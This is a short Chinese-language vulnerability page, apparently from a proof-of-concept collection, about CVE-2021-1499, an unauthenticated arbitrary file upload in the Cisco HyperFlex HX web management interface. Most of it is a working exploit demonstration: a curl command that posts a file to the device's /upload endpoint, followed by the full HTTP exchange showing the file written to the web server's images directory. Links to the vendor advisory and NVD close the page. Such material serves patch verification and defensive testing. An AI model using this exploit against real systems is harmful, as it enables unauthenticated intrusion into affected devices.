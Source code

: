 # Cisco HyperFlex HX 任意文件上传（CVE-2021-1499）

Cisco HyperFlex HX数据平台基于Web的管理界面中的漏洞可能允许未经身份验证的远程攻击者将文件上传到受影响的设备。


```
wvu@kharak:~$ curl -v http://192.168.123.133/upload -F x=@/dev/null
*   Trying 192.168.123.133...
* TCP_NODELAY set
* Connected to 192.168.123.133 (192.168.123.133) port 80 (#0)
> POST /upload HTTP/1.1
> Host: 192.168.123.133
> User-Agent: curl/7.64.1
> Accept: */*
> Transfer-Encoding: chunked
> Content-Type: multipart/form-data; boundary=------------------------1b9a7fe625152b78
> Expect: 100-continue
>
< HTTP/1.1 100 Continue
* Signaling end of chunked upload via terminating chunk.
< HTTP/1.1 200 OK
< Server: nginx/1.8.1
< Date: Tue, 18 May 2021 01:10:59 GMT
< Content-Type: application/json;charset=ISO-8859-1
< Content-Length: 56
< Connection: keep-alive
< Content-Security-Policy: default-src 'self'; script-src 'self' 'sha256-NqIRKoqKg0DGa/4ZvALvdLDeCWjHxRJAGWG9bR7oqhg='; img-src 'self'; style-src 'self' 'sha256-+iKfdo1l+xjgkzhMgz1wtLzCQP0aDTXicQujdoPsGrM='; font-src 'self' 'sha256-+iKfdo1l+xjgkzhMgz1wtLzCQP0aDTXicQujdoPsGrM='; frame-src 'self'; frame-ancestors 'self'; object-src 'none'; connect-src 'self'
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
<
{"result": "filename: /var/www/localhost/images//null"}
* Connection #0 to host 192.168.123.133 left intact
* Closing connection 0
wvu@kharak:~$
```

ref:

* https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-hyperflex-upload-KtCK8Ugz
* https://attackerkb.com/topics/Z2MeUsvSlT/cve-2021-1499
* https://nvd.nist.gov/vuln/detail/CVE-2021-1499